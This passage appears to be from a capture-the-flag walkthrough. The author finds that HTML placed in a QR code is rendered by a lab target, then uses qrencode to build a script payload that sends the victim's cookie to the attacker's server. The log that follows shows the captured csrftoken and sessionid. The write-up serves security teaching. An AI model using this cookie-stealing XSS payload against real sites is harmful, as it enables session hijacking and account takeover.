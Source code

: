 It’s not clear what the middle one is.

#### Messages

When I complete a purchase as a premium subscriber, I get a message:

![image-20250202065308806](/img/image-20250202065308806.png)

I can send the QRcode, but doesn’t seem to do anything.

#### XSS

It’s possible that Morty is going to scan the QRCode with some system that will display it’s validity. The username is included, which suggests that might be displayed back as well. If that’s the case, it’s possible that raw HTML in the QRcode could be rendered, providing a XSS opportunity.

To test this, I’ll include an image tag in a QRcode:

```

oxdf@hacky$ qrencode -o xss-img.png '465e929fc1e0853025faad58fc8cb47d.0d341bcdc6746f1d452b3f4de32357b9.0xdf<img src="http://10.10.14.6/img" />'

```

When I send this to morty, less than a minute later I get a hit on my server:

```
10.10.11.9 - - [02/Feb/2025 07:02:16] code 404, message File not found
10.10.11.9 - - [02/Feb/2025 07:02:16] "GET /img HTTP/1.1" 404 -

```

I’ll note that the cookies on this site are not `HttpOnly`:

![image-20250202070753242](/img/image-20250202070753242.png)

That means I can exfil morty’s cookie. I’ll write a POC to write a script tag and have it exfil the cookie through an image tag:

```

oxdf@hacky$ qrencode -o xss-poc.png '465e929fc1e0853025faad58fc8cb47d.0d341bcdc6746f1d452b3f4de32357b9.0xdf<script>img=new Image(); img.src="http://10.10.14.6/?c=" + document.cookie;</script>'

```

Shortly after sending this, I get a hit:

```
10.10.11.9 - - [02/Feb/2025 10:43:03] "GET /?c=csrftoken=gs5PGLZyqUt4cwgOZu6s2iJfnv6Bxo04;%20sessionid=.eJxNjU1qwzAQhZNFQgMphZyi3QhLluNoV7rvqgcwkixFbhMJ9EPpotADzHJ63zpuAp7d977Hm5_V7265mO4bH-GuJBO9PBuE1TnE_IWwTlnmksbgLUtrETafQ3LdaUgZYYGwnVCH4rOJ6Naw0TLmfz_SdqKZvu9kya67POqGHmHJEHazTEn9Yfwonvp36Y-B6OBzHBS5VMjVJvIaenN6uXUfZgNOJofwTBttmW0FrU3VcGbMgWlRKcWptIIy2Ryqfa1t0-o9VYqpyrCaG061amuuhcBC_gDes2X7:1tec94:pgxZ_OL42x44OoYBHLKHdXAWlvtbt3iGgv9vvUnP9GM HTTP/1.1" 200 -

```
